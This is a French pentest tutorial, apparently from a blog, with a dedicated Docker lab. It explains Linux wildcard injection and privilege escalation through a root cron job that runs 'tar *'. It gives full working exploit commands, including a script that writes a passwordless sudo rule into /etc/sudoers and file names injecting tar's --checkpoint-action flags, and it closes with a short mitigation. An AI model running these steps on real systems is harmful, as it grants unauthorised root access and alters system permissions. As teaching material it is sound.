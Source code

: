 ---
date: 22/01/2023
title: 'Privilege Escalation : Linux Wildcard Injection.'
description: 'Explication et exploitation de la vulnérabilité "Linux Wildcard Injection" à travers un cron jobs utilisant la commande tar. Le tout avec un lab docker dédié.'
image: /posts/linux_wildcard_injection.png
tags: linux pentest
author: '@ley0x_'
lang: fr
---

## 1. Introduction et lab

Dans cet article, nous allons voir comment exploiter une vulnérabilité sous Linux qui peut vous permettre de passer administrateur sur une machine.
Nous allons devoir comprendre le principe des **wildcard characters** et voir en quoi ils posent problème. Ensuite, nous allons pouvoir nous amuser et passer d'un simple utilisateur à root !
Pour cela, j'ai créé un lab, qui n'est rien d'autre qu'une machine ubuntu sous docker.
Cela va vous permettre de pratiquer tout au long de l'article.

Pour installer le lab, il vous faut **docker** sur votre machine, cloner ce repository [GitHub](https://github.com/leoroullois/linux-wildcard-injection), puis suivre les [instructions d'installation](https://github.com/leoroullois/linux-wildcard-injection) (rapide).

## 2. C'est quoi les « Wildcard character »

Sous Linux, les **wildcard characters** sont un ou plusieurs caractères représentant d'autres caractères.
Il en existe plusieurs, en voici deux principaux :
Le wildcard **\*** peut être remplacé par n'importe quel caractère ou suite de caractères.
Par exemple, `*.txt` va matcher `a.txt` et `file.txt` mais aussi `fichier_2.txt`.  
Le wildcard **?** n'est remplacé que par un seul caractère.
Par exemple, `?.pdf` va matcher `b.pdf` mais pas `file.pdf`.  
Nous allons nous intéresser au caractère **\*** qui peut être exploité dans un contexte de **privilege escalation**.

## 3. Comprendre le problème

Pour comprendre le problème, on va utiliser un exemple simple avec la commande `ls`.
Tous d'abord, déplacez-vous dans le dossier `/home/user/intro`, qui contient 2 fichiers.
Listez les fichiers avec la commande `ls *`. Le caractère **\*** n'est pas utile, mais il va permettre d'illustrer le problème.
Maintenant, créez un fichier se nommant `-la` grâce à la commande suivante :

```shell
echo "" > -la
```

Maintenant, refaites la commande `ls *`. L'output est différent ! Normalement, il doit ressembler à ceci :

```
user@ubuntu:~/intro$ ls *
-rw-r--r-- 1 user user 0 Dec 30 10:07 file1.txt
-rw-r--r-- 1 user user 0 Dec 30 10:07 file2.pdf
```

En faite notre dossier contient les fichiers : `-la`, `file1.txt` et `file2.pdf`. Ainsi, notre wildcard caractère a été remplacé par ces noms de fichiers, et donc la commande réellement exécutée est en faite :

```shell
ls -la file1.txt file2.pdf
```

Le point principal à comprendre par la suite, c'est que la commande `ls` ne va pas interpréter `-la` comme un fichier, mais bien comme étant des flags comme elle l'aurait fait normalement. Ceci explique donc l'output que l'on a eu précédemment.

C'est ce principe que l'on va exploiter ensuite pour faire de l'escalade de privilège.

<Info>
Ce n'est pas réserver uniquement à la commande `ls` mais c'est valable pour toutes les commandes Linux.
</Info>

## 4. Tar Wildcard Injection

### 4.1. La commande tar

La commande **tar** sert à créer des archives. Cette commande possède plusieurs flags et ceux qui nous intéressent ici sont `--checkpoint` et `--checkpoint-action`.
Voici un extrait du manuel de la commande TAR :

```
--checkpoint[=N]
            Display progress messages every Nth record (default 10).
--checkpoint-action=ACTION
            Run ACTION on each checkpoint.
```

Définir `--checkpoint=1` va nous permettre d'exécuter un script malveillant à chaque exécution de la commande **tar**.

Pour ce faire, on place le flag **checkpoint-action** comme ceci : `--checkpoint-action=exec=sh script_malveillant.sh`.

### 4.2. C'est quoi les « Cron table » ?

La **cron table** est un fichier qui défini des **cron jobs**. Les **cron jobs** sont des actions « programmées » qui s'exécutent automatiquement, par exemple toutes les heures, toutes les minutes, au démarrage de la machine (en fonction de la crontable)...
Les **cron jobs** sont souvent exécutées en tant que root.

C'est intéressant, car si dans le cadre d'un pentest web vous vous introduisez dans un serveur web qui possède une cron table vulnérable aux wildcard injections (classique dans les CTF tryhackme), vous pourrez devenir administrateur.

Voici un exemple de fichier `/etc/crontab` vierge :

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
```

### 4.3. Exploitation de la vulnérabilité

Faites un `cat /etc/crontab`, si vous voyez ce genre de ligne, c'est bon signe :

```
* * * * * root cd /home/user && tar -cf /opt/backup.tar *
```

Ça signifie que la commande **tar** va être lancée toutes les minutes en tant que root pour créer une archive (backup) du dossier home de notre utilisateur.

Pour la suite de l'article, assurez-vous donc bien d'être dans le dossier `/home/user`.

Commençons par créer notre script malveillant qui nous permettra de devenir root.

La méthode la plus « direct » est d'ajouter l'utilisateur courant aux **sudoers**, mais vous pouvez vous amuser à exécuter un **reverse shell**.
Vous pourriez aussi ajouter la permission **SUID** sur un exécutable, par exemple, dans le but d'utiliser un exploit trouvé sur [GTFOBins](https://gtfobins.github.io/).

On va rester simple ici :

```shell
echo "echo 'user  ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers" > evil.sh
```

Lorsque `evil.sh` sera exécuter par un utilisateur possédant les droits root, le contenu suivant va être ajouté dans le fichier `/etc/sudoers` :
`user ALL=(ALL) NOPASSWD:ALL`

<Info>
Cela signifie que l'utilisateur **user** aura été ajouté aux **sudoers** et pourra exécuter des commandes en tant que root.
</Info>

Ensuite, créons un fichier de la sorte dans le dossier `/home/user` :

```shell
echo "" > --checkpoint=1
```

Puis, créons le fichier qui va permettre d'exécuter notre script malveillant :

```shell
echo "" > "--checkpoint-action=exec=sh evil.sh"
```

Maintenant, on attend une minute que le cron job s'exécute. Après cela, vous devriez pouvoir exécuter des commandes avec le mot clé `sudo` !

```
user@ubuntu:~$ sudo whoami
root
```

```
user@ubuntu:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```

C'est gagné !

## 5. Comment éviter ce type d'attaques ?

Pour éviter ce type de vulnérabilité, c'est très simple, il suffit d'ajouter le chemin absolu avant le **wildcard character**, par exemple ici :

```shell
tar cf /opt/backup.tar /home/user/*
```
